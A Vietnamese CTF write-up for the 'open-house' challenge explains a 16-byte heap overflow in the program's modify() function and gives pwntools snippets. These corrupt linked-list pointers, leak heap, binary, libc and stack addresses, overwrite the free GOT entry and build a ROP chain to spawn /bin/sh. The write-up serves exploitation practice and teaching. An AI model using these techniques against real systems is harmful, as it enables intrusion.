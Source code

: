 ##### I. Tìm bug

- ![image-20230530005803415](./assets/image-20230530005803415.png)

- Kiểm tra các chế độ bảo vệ cơ bản ta thấy được `canary ` và `relro` `disable`. 

- ![image-20230530005939348](./assets/image-20230530005939348-1685385500177-2.png)

- Chương trình thực hiện các tính năng như `comment`, `view`, `modify`, `delete` và `quit`.

- `comment` giúp ta tạo một `comment` mới và max 11 `comment` , khi khởi tạo ta đã có sẵn 10 `comment`.

- `modified` ta có thể chỉnh sửa `comment` với option này. Còn các option còn lại không có gì quá lạ với kiểu bài như này.

- Struct của một `comment` được cấu tạo như sau:

- ```c
  #define INPUT_SIZE 512
  #define ALARM_SECONDS 180
  
  struct __attribute__((packed)) item  {
      char buf[INPUT_SIZE];
      struct item* next;
      struct item* prev;
  };
  ```

- Các `comment` được liên kết với nhau theo kiểu liên kết đôi.

- Tới với tính năng đầu tiên `comment`, mình sẽ dùng [source](https://github.com/Nautilus-Institute/quals-2023/blob/main/open-house/src/open-house.c) cho dễ hình dung vì ida rất khó nhìn:

- ```c
  void new(char *msg)
  {
      struct item *ptr;
      unsigned int len;
  
      // Seek through our linked list to find the tail
      for (ptr = &head; ptr->next; ptr = ptr->next);
  
      // Create a new entry and link it to the list
      ptr->next = malloc(sizeof(struct item));
      ptr->next->prev = ptr;
      ptr = ptr->next;
  
      ptr->next = 0;  // new entry is now the tail
  
      totalReviews++; 
  
      // Copy message into the buffer
      len = (strlen(msg) > 512) ? 512 : strlen(msg);
      strncpy(ptr->buf, msg, len);
      // Intentionally missing a NULL-terminator here to create a pointer leak
  
      // fprintf(stderr, "NewNode = %p %p\n", &ptr->next, ptr);
  
      return;
  }
  
  void create()
  {
      char input[INPUT_SIZE*2];
  
      // Receive review from user
      fputs("Absolutely, we'd love to have your review!\n", stdout);
      if (fgets(input, INPUT_SIZE*2, stdin) == NULL) {
          return;
      }
  
      // If we received a review, place it at the end of the list
      if (strlen(input) > 0) {
          new(input);
          fputs("Thanks!\n", stdout);
      } else {
          fputs("I know. I'm speechless, too! It really is a great property.\n", stdout);
      }
  
      return;
  }
  ```

- Với tính năng này nó sẽ tạo một `comment`với max size là 512, và chúng hoàn toàn được tạo trên heap.

- Bug nằm ở `modify`:

- ```c
  void modify()
  {
      struct item *ptr = &head;
      char buf[INPUT_SIZE+16];
      unsigned long selection;
  
      // Ask user for their selection
      fputs("Which of these reviews should we replace?\n", stdout);
      if (fgets(buf, INPUT_SIZE+16, stdin) == NULL) {
          return;
      }
  
      // Advance ptr to their selection
      selection = strtoul(buf, NULL, 10);
      for (unsigned int i = 0; i != selection; i++) {
          ptr = (ptr->next) ? ptr->next : ptr;
          if(ptr->next == NULL)
          {
              break;
          }
      }
  
      //  fprintf(stderr, "MOD PTR = %p Head = %p %d\n", ptr, &head, &head == ptr);
      // Replace their selection with their input
      fprintf(stdout, "Replacing this one: %s\n", ptr->buf);
      fputs("What do you think we should we replace it with?\n", stdout);
      if (fgets(ptr->buf, INPUT_SIZE+16, stdin) == NULL) {
          return;
      }
  
     //  fprintf(stderr, "MOD FIN head.next = %p head.prev = %p tot = %d rev = %d\n", head.next, head.prev, totalReviews, reviewed);
  
      return;
  }
  ```

- Khi nó cho ta `rewrite` với `size+0x10` gây ra overflow điều này khiến ta có thể thay đổi được `next` và `prev` của một `comment`.

##### II. Ý tưởng

- Với việc mọi thứ được cấp phát trên `heap` và chỉ duy nhất `root` của `comment` thì mới nằm trên `binary`, do đó thứ ta cần là địa chỉ của `heap`.

- Do tất cả đều nằm trên heap nên `next` và `prev` cũng vậy, ta sẽ nhập một comment `0x200*b'a'` để nó chạm tới `next` và in cùng ra. Tuy nhiên điều này sẽ không thể được vì hàm input lại là `fgets` nó sẽ tự động thêm `null byte` vào cuối chuỗi. Khi ra soát lại thì có thể thấy rằng nếu `next` của một `comment` là `null` thì tức là `comment` cuối cùng nên khi tạo một `comment` mới thì `next` này sẽ trỏ vào `comment` mới. Vậy nên ta chỉ cần sửa comment cuối cùng thành `0x200*b'a' + p32(0) # do fgets có cả byte '\n'` xong đó tạo một `comment` mới thì `next` sẽ được in ra cùng với `comment`.

- Sau khi có `heap` ta sẽ leak `binary` thông qua `prev` của `comment` kế `root`. Từ binary thì có thể `leak` libc, do không biết là có `root` nên mình đã sử dụng một cách phức tạp hơn là `overlap` chunk để leak `libc` tại `unsorted bin` rồi leak `stack` và leak `binary`. Đều này có vẻ bất khả thi nhưng mình đã `fuzz libc` và biết được rằng `libc` của server được custom. Tuy nhiên một số `libc` với `offset` của nó lại có `environ` đúng nên mình đã `leak` được `stack`.

- Do không có `libc` nên không thể thực hiện kỹ thuật `ret2libc` được và các `gadget` có sẵn trên `binary` không đủ cho ta thực hiện lấy shell. Nhưng tác giả đã cố tình cho ta một `libc_write`

- ```c
  void alarm_handler(int signal){
      (void)signal;
  
      char *bye = "I'm sorry, the open house is closing now. Bye!\n";
      write(1, bye, strlen(bye));
      exit(1);
  }
  ```

- Hàm này được cấu tạo từ `syscall` cơ bản, và ta có thể lợi dụng nó để setup `sys_execve`.

- ![image-20230530013740494](./assets/image-20230530013740494.png)

- Đây là hàm được call tại `gs:0x10`

- ![image-20230530013920054](./assets/image-20230530013920054.png)

- Để cho chắc ăn mình in `asm` của `libc_write` trên `server` và decode lại cho chắc.

- Dựa vào đoạn trên ta có sẵn `mov edx, [esp+0x28]`,  `int 0x80` cộng thêm `pop ebx ; ret` từ `binary` với `ecx = 0` sẵn thì ta chỉ cần tìm cách setup `eax` nữa là xong.

- Và mình tìm được đoạn mã sau:

- ![image-20230530014454165](./assets/image-20230530014454165.png)

- Nó giúp ta setup eax và call `free`, ta có thể thay đổi got free thành `libc_write+44` để setup `edx` và gọi `int 0x80`.

##### III. Khai thác

- Leak heap:

- ```py 
  c(b'chino') # open option modify, delete
  md(b'd', 11)
  md(b'm', 10, b'a'*0x1fb + b'abcd')
  c(b'chino')
  v()
  r.recvuntil(b'abcd\n')
  heap = u32(r.recv(4))
  info('heap: ' + hex(heap))
  ```

- Leak binary:

- ```py
  payload = b'a'*0x200 + p32(heap - 0x22ac)+ p32(heap-0x2090)
  md(b'm', 4, payload)
  v()
  r.recvuntil(b'\n\n**** - ')
  bin = u32(r.recv(4))
  exe.address = bin - 0x3164
  info('bin: ' + hex(exe.address))
  ```

- Leak libc:

- ```py
  payload = b'a'*0x200 + p32(exe.got['free'])+ p32(heap-0x2090)
  md(b'm', 4, payload)
  v()
  r.recvuntil(b'\n\n**** - ')
  libc.address = u32(r.recv(4)) - libc.sym['free']
  info('libc: ' + hex(libc.address))
  ```

- Leak stack:

- ```py
  payload = b'a'*0x200 + p32(libc.sym['environ'])+ p32(heap-0x2090)
  md(b'm', 4, payload)
  v()
  r.recvuntil(b'\n\n**** - ')
  stack = u32(r.recv(4))
  info('stack: ' + hex(stack))
  ```

- Overwrite `free` got và rewrite `fgets`:

- ```python
  payload = b'a'*0x200 + p32(exe.got['free'])+ p32(heap-0x2090)
  md(b'm', 4, payload)
  md(b'm', 5, p32(libc.sym['write']+0x2c) + p32(libc.sym['fgets']))
  ```

- Overwrite saverip `modify` :

- ```python
  payload = b'a'*0x200 + p32(stack-0x100)+ p32(heap-0x2090)
  md(b'm', 4, payload)
  payload = p32(exe.sym['pop_ebx']) + p32(stack-0xc8) + p32(exe.sym['call']) + b'\x00'*0x28 + p32(0xb) + b'/bin/sh\x00' + b'\x00'*0x8 + p32(libc.sym['write']+0x2c)
  md(b'm', 5, payload)
  ```

- Get shell:

- ![image-20230530020237312](./assets/image-20230530020237312.png)

